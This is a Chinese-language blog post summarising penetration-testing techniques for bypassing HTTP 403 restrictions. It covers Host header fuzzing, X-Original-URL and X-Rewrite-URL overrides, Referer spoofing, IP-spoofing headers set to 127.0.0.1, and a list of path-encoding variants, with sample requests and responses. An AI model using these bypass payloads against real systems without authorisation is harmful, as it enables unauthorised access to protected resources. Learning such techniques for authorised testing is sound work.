 ```yaml
---
title: 渗透测试如何利用403
comments: true
date: 2022-02-08 11:19:26
tags: ["渗透测试", "403"]
categories:
- 渗透测试
cover: http://image.geoer.cn/403.png
top_img:
description:
---
```




今天面试问到这个问题了，我大概是知道怎么利用，就是说不太出来...哎还是用文字总结一下吧！



## 1.端口利用

扫描主机端口，找其它开放web服务的端口，访问其端口，挑软柿子。





## 2.修改HOST

**Host在请求头中的作用：**在一般情况下，几个网站可能会部署在同一个服务器上，或者几个 web 系统共享一个服务器，通过host头来指定应该由哪个网站或者web系统来处理用户的请求。

而很多WEB应用通过获取HTTP HOST头来获得当前请求访问的位置，但是很多开发人员并未意识到HTTP HOST头由用户控制，从安全角度来讲，任何用户输入都是认为不安全的。



修改客户端请求头中的 Host 可以通过**修改 Host 值**修改为子域名或者ip来绕过来进行绕过二级域名；



**首先**对该目标域名进行子域名收集，整理好子域名资产（host字段同样支持IP地址）。先Fuzz测试跑一遍收集到的子域名，这里使用的是Burp的Intruder功能。若看到一个服务端返回200的状态码，即表面成功找到一个在HOST白名单中的子域名。我们利用firefox插件来修改HOST值，成功绕过访问限制。







## 3.覆盖请求 URL

尝试使用 **X-Original-URL** 和 X-Rewrite-URL 标头绕过 Web 服务器的限制。

通过支持 X-Original-URL 和 X-Rewrite-URL 标头，用户可以使用 X-Original-URL 或 X-Rewrite-URL HTTP 请求标头**覆盖请求 URL 中的路径，尝试绕过对更高级别的缓存和 Web 服务器的限制**

```
Request
GET /auth/login HTTP/1.1
Response
HTTP/1.1 403 Forbidden

Reqeust
GET / HTTP/1.1
X-Original-URL: /auth/login
Response
HTTP/1.1 200 OK

or

Reqeust
GET / HTTP/1.1
X-Rewrite-URL: /auth/login
Response
HTTP/1.1 200 OK

```





## 4.Referer 标头绕过

尝试使用 Referer 标头绕过 Web 服务器的限制。

介绍：Referer 请求头包含了当前请求页面的来源页面的地址，即表示当前页面是通过此来源页面里的链接进入的。服务端一般使用 Referer 请求头识别访问来源。

```
Request
GET /auth/login HTTP/1.1
Host: xxx
Response
HTTP/1.1 403 Forbidden

Reqeust
GET / HTTP/1.1
Host: xxx
ReFerer:https://xxx/auth/login
Response
HTTP/1.1 200 OK

or

Reqeust
GET /auth/login HTTP/1.1
Host: xxx
ReFerer:https://xxx/auth/login
Response
HTTP/1.1 200 OK

```





## 5.代理 IP

一般开发者会通过 Nginx 代理识别访问端 IP 限制对接口的访问，尝试使用 X-Forwarded-For、X-Forwared-Host 等标头绕过 Web 服务器的限制。

```bash
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwared-Host: 127.0.0.1
X-Host: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1

```

如：

```
Request
GET /auth/login HTTP/1.1
Response
HTTP/1.1 401 Unauthorized

Reqeust
GET /auth/login HTTP/1.1
X-Custom-IP-Authorization: 127.0.0.1
Response
HTTP/1.1 200 OK

```





## 6.扩展名绕过

基于扩展名，用于绕过 403 受限制的目录。

```
site.com/admin => 403
site.com/admin/ => 200
site.com/admin// => 200
site.com//admin// => 200
site.com/admin/* => 200
site.com/admin/*/ => 200
site.com/admin/. => 200
site.com/admin/./ => 200
site.com/./admin/./ => 200
site.com/admin/./. => 200
site.com/admin/./. => 200
site.com/admin? => 200
site.com/admin?? => 200
site.com/admin??? => 200
site.com/admin..;/ => 200
site.com/admin/..;/ => 200
site.com/%2f/admin => 200
site.com/%2e/admin => 200
site.com/admin%20/ => 200
site.com/admin%09/ => 200
site.com/%20admin%20/ => 200

```



## 7.扫描的时候

遇到 403 了，上目录扫描工具，扫目录，扫文件（<font color=red>记住，扫描的时候要打开探测403，因为有些网站的目录没有权限访问会显示403，但是在这个目录下面的文件，我们或许能扫描到并访问</font> ）









